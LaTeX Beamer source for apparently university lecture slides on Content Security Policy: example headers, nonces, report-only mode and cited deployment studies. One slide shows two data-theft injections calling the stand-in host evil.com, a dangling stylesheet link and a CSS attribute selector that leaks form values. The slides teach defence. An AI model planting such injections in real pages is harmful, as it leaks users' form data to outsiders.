
\begin{frame}[fragile,label=CSPExs]{Content Security Policy}
    \begin{itemize}
        \item \texttt{Content-Security-Policy}: HTTP header sent to browsers
        \item \fbox{\small \tt Content-Security-Policy: default-src 'self' 'unsafe-inline'}
        \item says ``only load things from \myemph{same host} or \myemph{embedded in webpage}''
            \begin{itemize}
            \item loading image from \texttt{evil.com} will fail
            \end{itemize}
        \item \fbox{\parbox{11cm}{\small \tt Content-Security-Policy: script-src 'none';\\object-src 'none';
            style-src 'self'}}
            \begin{itemize}
            \item disallow all scripts, all plugins/etc.
            \item only allow stylesheets from same host (and not inline)
            \end{itemize}
    \end{itemize}

    % FIXME: gmail policy
    %"frame-src https://*.talkgadget.google.com/ 'self' https://hangouts.google.com/ https://talkgadget.google.com/ https://drive.google.com/picker https://ssl.gstatic.com https://accounts.google.com/ https://ssl.google-analytics.com/ https://feedback.googleusercontent.com/resources/ https://www.google.com/tools/feedback/ https://support.google.com/inapp/ https://plus.google.com/ https://docs.google.com/ https://clients5.google.com/pagead/drt/dn/ https://clients5.google.com/ads/measurement/jn/ https://clients6.google.com/static/ https://mail.google.com/mail/ https://mail-attachment.googleusercontent.com/attachment/ https://apis.google.com/additnow/ https://notifications.google.com/ https://people-pa.clients6.google.com/static/;script-src https://maps.gstatic.com/ https://*.talkgadget.google.com/ blob: 'self' 'unsafe-inline' 'unsafe-eval' https://hangouts.google.com/ https://talkgadget.google.com/ https://apis.google.com/ https://ajax.googleapis.com/ https://maps.googleapis.com/maps/api/ https://maps.googleapis.com/maps-api-v3/ https://www-onepick-opensocial.googleusercontent.com/gadgets/js/ https://ssl.google-analytics.com/ https://feedback.googleusercontent.com/resources/ https://www.gstatic.com/feedback/ https://clients1.google.com/complete/ https://www.gstatic.com/og/ https://www.googleapis.com/appsmarket/ https://www.google.com/tools/feedback/;img-src https: blob: data:;report-uri /cspreport"
\end{frame}

\begin{frame}[fragile]{Aside: why care about stylesheets?}
    \begin{itemize}
    \item get data: \verb|<link rel=stylesheet href="http://evil.com/?webpage contents here...|
    \item conditional image loaded to get data? assuming pre-filled-in-form:
        \begin{itemize}
        \item \verb|input[value^=Virginia] {background: url(http://evil.com?Virginia)}|
        \end{itemize}
    \item adjust webpage display in lots of ways
        \begin{itemize}
        \item convince user to click in wrong places?
        \end{itemize}
    \item IE 7 supported CSS expressions that can construct URLs from webpage data directly
    \end{itemize}
\end{frame}

\begin{frame}{Content Security Policy examples (1)}
    \begin{itemize} 
        \item \fbox{\parbox{11cm}{\tt \small Content-Security-Policy: script-src 'self' www.google-analytics.com; object-src 'none'}}
        \begin{itemize}
            \item allow scripts from same host or \texttt{www.google-analytics.com}
            \item \myemph{disallow inline scripts}
            \item disallow plugins
        \end{itemize}
    \item \fbox{\parbox{11cm}{\tt \small Content-Security-Policy: default-src 'none'; img-src 'self' https://\ldots; \ldots}}
        \begin{itemize}
            \item allow nothing to start; then whitelist what is needed
            \item recommended strategy
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=CSPNonces]{CSP nonces}
\begin{minted}[fontsize=\small]{HTML}
Content-Security-Policy: script-src https://foo.com
                                    'nonce-DZJeVASMVs'

...
<script nonce="DZJeVASMVs">
// legitimate embedded script
document...
</script>
\end{minted}
    \begin{itemize}
    \item nonce: ``\textbf{n}umber used only \textbf{once}''
    \item idea: \myemph{changes every time}; attacker can't guess for XSS attack
        \begin{itemize}
        \item browser doesn't enforce that it changes; server's job
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{CSP report-only}
    \begin{itemize}
    \item content-security-policy-report-only
        \begin{itemize}
        \item don't block anything, but tell server if violation
        \end{itemize}
    \item can use to check before setting binding policy
    \item can scan reports for possible issues without breaking webpage
    \end{itemize}
\end{frame}

\begin{frame}{CSP feature expansion}
    \begin{itemize}
    \item originally: CSP was anti-XSS measure
        \begin{itemize}
        \item meant as `defense in depth' --- in case normal filtering fails
        \end{itemize}
    \item now also has directives to control
        \begin{itemize}
        \item embedding webpages without permission (e.g. `clickjacking' attacks)
        \item TLS usage
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{CSP deployment (2020 paper)}

\includegraphics[width=\textwidth]{../web/roth-ndss-title}
\end{frame}

\begin{frame}{CSP deployment (2014-2019)}

\includegraphics[width=\textwidth]{../web/roth-ndss-fig5}
\end{frame}

% FIXME: https://dl.acm.org/doi/pdf/10.1145/2508859.2516703 (2016 paper)

\begin{frame}{CSP implementation bugs (1)}

\includegraphics[width=\textwidth]{../web/franken-title}
\end{frame}

\begin{frame}{CSP implementation bugs (2)}

\includegraphics[width=0.45\textwidth]{../web/franken-fig3}

\includegraphics[width=0.45\textwidth]{../web/franken-fig10}
\end{frame}


